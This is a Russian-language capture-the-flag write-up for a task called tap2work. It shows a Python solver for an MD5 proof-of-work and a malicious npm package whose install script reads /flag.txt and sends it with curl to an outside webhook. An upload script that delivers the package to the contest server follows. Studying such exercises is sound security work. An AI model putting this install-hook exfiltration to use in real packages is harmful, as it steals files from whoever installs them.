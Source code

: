 # tap2work

Прочитав исходный код, понимаем что приложение реализует некий POW с хэшами и после его прохождения устанавливает отправленный приложению npm модуль.
---

Начнём с реализации прохождения pow, при get запросе на сайт сервер устанавливает в куки **challenge** челлендж нашей проверки.
```
app.get('/', (req, res) => {
  req.session.challenge = uuidv4();
  res.cookie('challenge', req.session.challenge);
```
При загрузке файла POST запросом, код проверяет что md5 хеш челенджа + нашего респонса начинается с пяти нулей
```
if (!md5(req.session.challenge + req.body.response).startsWith('00000')) {
     result = 'POW check failed';
```
Напишем функцию которая решает POW
```
def solve_pow(challenge):
    for i in itertools.count():
        candidate = challenge + str(i)
        hash_result = hashlib.md5(candidate.encode()).hexdigest()
        if hash_result.startswith('00000'):
            return str(i)
```

---
Теперь напишем наш npm модуль, который при установке будет отправлять данные на вебхук
```
  "name": "flag",
  "version": "1.0.0",
  "scripts": {
    "install": "cat /flag.txt > /tmp/flag && curl https://webhook/flag=$(cat /tmp/flag)"
```

Запаковываем его в .gz и отправляем на сервер, ждём флаг на вебхуке

```
    tgz_file = 'flag-1.0.0.tgz'
    create_tgz(package_dir, tgz_file)

    url = 'http://tap2work.tasks.2025.ctf.cs.msu.ru/'
    session = requests.Session()

    response = session.get(url)
    challenge = session.cookies.get('challenge')

    pow_response = solve_pow(challenge)

    files = {
        'module': (tgz_file, open(tgz_file, 'rb'), 'application/gzip')
    }

    data = {
        'response': pow_response
    }

    session.post(url, files=files, data=data)
```
---
# Flag: MSKCTF{enr011_y04r_Own_cryptO_tO_npm}

